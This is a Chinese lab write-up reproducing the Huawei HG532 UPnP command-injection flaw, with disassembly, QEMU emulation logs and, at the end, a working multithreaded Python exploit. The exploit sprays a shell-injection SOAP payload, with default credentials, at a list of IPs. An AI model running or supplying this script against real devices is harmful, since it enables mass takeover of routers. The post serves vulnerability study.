







华为路由器Huawei HG532漏洞复现过程¶
漏洞分析¶
这次出问题的点是upnp程序
1 2 3 | home/oit/Downloads/_router HG532e.rar-0.extracted/_HG532eV100R001C01B020_upgrade_packet.bin.extracted/squashfs-root/bin [oit@ubuntu] [18:36] > file upnp upnp: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked (uses shared libs), corrupted section header size |
是MIPS32位大端格式
UPnP 是由“通用即插即用论坛”（UPnP™ Forum）推广的一套网络协议。该协议的目标是使家庭网络（数据共享、通信和娱乐）和公司网络中的各种设备能够相互无缝连接，并简化相关网络的实现。
丢到IDA中分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 | LOAD:004074FC la $a1, aNewstatusurl # "NewStatusURL" LOAD:00407500 move $a2, $zero LOAD:00407504 jalr $t9 ; ATP_XML_GetChildNodeByName LOAD:00407508 addiu $a3, $sp, 0x24 LOAD:0040750C lw $gp, 0x18($sp) LOAD:00407510 bnez $v0, loc_407564 LOAD:00407514 move $s1, $v0 LOAD:00407518 lw $v0, 0x24($sp) LOAD:0040751C nop LOAD:00407520 beqz $v0, loc_407564 LOAD:00407524 addiu $s0, $sp, 0x28 LOAD:00407528 la $t9, snprintf LOAD:0040752C lw $a3, 0x20($sp) LOAD:00407530 la $a2, aUpgGUST1Firmwa # "upg -g -U %s -t '1 Firmware Upgrade Ima"... LOAD:00407538 move $a0, $s0 LOAD:0040753C li $a1, 0x400 LOAD:00407540 jalr $t9 ; snprintf LOAD:00407544 sw $v0, 0x10($sp) LOAD:00407548 lw $gp, 0x18($sp) LOAD:0040754C nop OAD:00407520 beqz $v0, loc_407564 LOAD:00407524 addiu $s0, $sp, 0x28 LOAD:00407528 la $t9, snprintf LOAD:0040752C lw $a3, 0x20($sp) LOAD:00407530 la $a2, aUpgGUST1Firmwa # "upg -g -U %s -t '1 Firmware Upgrade Ima"... LOAD:00407538 move $a0, $s0 LOAD:0040753C li $a1, 0x400 LOAD:00407540 jalr $t9 ; snprintf LOAD:00407544 sw $v0, 0x10($sp) LOAD:00407548 lw $gp, 0x18($sp) LOAD:0040754C nop LOAD:00407550 la $t9, system #执行system |
分析upnp描述信息后 发现该设备支持名为DeviceUpgrade的一种服务类型 设备可以通过这种服务更新固件 具体过程是向“/ctrlt/DeviceUpgrade_1”这个地址提交请求 请求中包含NewStatusURL及NewDownloadURL两个元素。
远程管理员可以通过该漏洞在设备上执行任意命令 将shell元字符 注入NewStatusURL以及NewDownloadURL元素中

先调用了一个xml相关的函数，获取参数的值，很明显的看到了参数拼接的行为，之后调用了system函数
1 2 3 | snprintf($s0, 0x400, 'upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -', NewDownloadURL, NewStatusURL) system($s0) |
不过还有一个认证机制需要 Authorization 头 才能过掉 check, 否则会 401

实际测试¶
尝试直接运行脚本失败了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 | root@ml-vm:/home/oit/tools/fat# ./sources/extractor/extractor.py -b iot -sql 127.0.0.1 -np -nk "./HG532e.rar" images -----------------Extractor Start---------------- input:./HG532e.rar output:images rootfs:True kernel:False parallel:False sql:127.0.0.1 brand:iot -----------------Extractor End------------------ >> Database Image ID: 146 /home/oit/tools/fat/HG532e.rar >> MD5: 9986b8aee8e1eb511a8bbb3a39b485e4 >> Tag: 146 >> Temp: /tmp/tmpLXreHs >> Status: Kernel: True, Rootfs: False, Do_Kernel: False, Do_Rootfs: True >>>> RAR archive data, first volume type: MAIN_HEAD >> Recursing into archive ... Traceback (most recent call last): File "./sources/extractor/extractor.py", line 425, in extract File "./sources/extractor/extractor.py", line 472, in _check_archive File "./sources/extractor/extractor.py", line 693, in _check_recursive File "./sources/extractor/extractor.py", line 381, in extract UnicodeDecodeError: 'ascii' codec can't decode byte 0xd8 in position 37: ordinal not in range(128) >> Cleaning up /tmp/tmpLXreHs... |
打算用qemu运行一个虚拟机来搞
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 | root@ml-vm:/mnt/hgfs/IOTEXP/_router HG532e.rar.extracted/_HG532eV100R001C01B020_upgrade_packet.bin.extracted# sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -nographic -net nic -net tap,ifname=br0,script=no,downscript=no [ 0.000000] Initializing cgroup subsys cpuset [ 0.000000] Initializing cgroup subsys cpu [ 0.000000] Linux version 2.6.32-5-4kc-malta (Debian 2.6.32-48squeeze4) (dannf@debian.org) (gcc version 4.3.5 (Debian 4.3.5-4) ) #1 Tue Sep 24 00:02:22 UTC 2013 [ 0.000000] [ 0.000000] LINUX started... [ 0.000000] bootconsole [early0] enabled [ 0.000000] CPU revision is: 00019300 (MIPS 24Kc) [ 0.000000] FPU revision is: 00739300 [ 0.000000] Determined physical RAM map: [ 0.000000] memory: 00001000 @ 00000000 (reserved) ... [ 0.000000] SLUB: Genslabs=7, HWalign=64, Order=0-3, MinObjects=0, CPUs=1, Nodes=1 [ 0.000000] Hierarchical RCU implementation. [ 0.000000] NR_IRQS:256 [ 0.000000] CPU frequency 200.00 MHz [ 0.000000] Console: colour dummy device 80x25 [ 0.000000] console [tty0] enabled, bootconsole disabled |
但是一直没有打开shell
换了一个磁盘和内核，成功地开启了虚拟机但是网络配置没有成功

未完待续。。
修改了一下/etc/network/interfaces成功了
1 | scp -r ./squashfs-root root@192.168.104.187:/root |
文件拷贝进去

进入虚拟机之后开启服务


exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 | import threading, sys, time, random, socket, re, os, struct, array, requests from requests.auth import HTTPDigestAuth ips = open(sys.argv[1], "r").readlines() cmd = "" # Your MIPS (SSHD) rm = "<?xml version=\"1.0\" ?>\n <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n </s:Body>\n </s:Envelope>" class exploit(threading.Thread): def __init__ (self, ip): threading.Thread.__init__(self) self.ip = str(ip).rstrip('\n') def run(self): try: url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1" requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm) print "[SOAP] Attempting to infect " + self.ip except Exception as e: pass for ip in ips: try: n = exploit(ip) n.start() time.sleep(0.03) except: pass |
确实成功了
但是没有虚拟机上没有这个命令emmm
